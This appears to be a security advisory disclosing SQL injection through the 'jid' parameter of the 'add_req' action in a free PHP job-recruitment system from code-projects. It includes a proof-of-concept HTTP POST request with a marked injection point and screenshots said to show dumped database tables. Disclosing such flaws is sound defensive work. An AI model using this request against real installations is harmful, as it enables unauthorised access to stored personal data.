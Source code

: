 # job-recruitment-in-php has sql injection vulnerability in add_req action and jid parameter

## supplier 
https://code-projects.org/job-recruitment-in-php-css-javascript-and-mysql-free-download/
## Vulnerability file
jid parameter

## describe

In jid parameter .An unrestricted SQL injection attack exists in a job-recruitmentsystem. The parameters that can be controlled are as follows:  jid parameter . This function executes the jid parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

**Code analysis**    

When the parameter value of $POST['jid'] is obtained in add_req action , it will be concatenated into SQL statements and executed, which has a SQL injection vulnerability. 

![image-20241226010008040](https://github.com/user-attachments/assets/d1c08cb5-5076-4423-b28a-4a74d8142c9d)

## POC

```
POST /_parse/_all_edits.php HTTP/1.1
Host: airecruitmentsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Origin: http://airecruitmentsystem
Connection: close
Referer: http://airecruitmentsystem/_parse/_all_edits.php
Cookie: PHPSESSID=etso55q58ionvmrvpetmaf8urt
Upgrade-Insecure-Requests: 1
Priority: u=0, i

jid=1*&degree=2&skillset1=1&action=add_req
```

**Result**

![image-20241226010957780](https://github.com/user-attachments/assets/839a6e83-6917-40ee-b0f6-5f6c08dbdf10)

Get tables

![image-20241213201627253](https://github.com/user-attachments/assets/4314c675-b9dd-4809-9aca-eb525b3e3326)

**Discover**

西安电子科技大学： 李腾，谢亚轩，刘芮彤
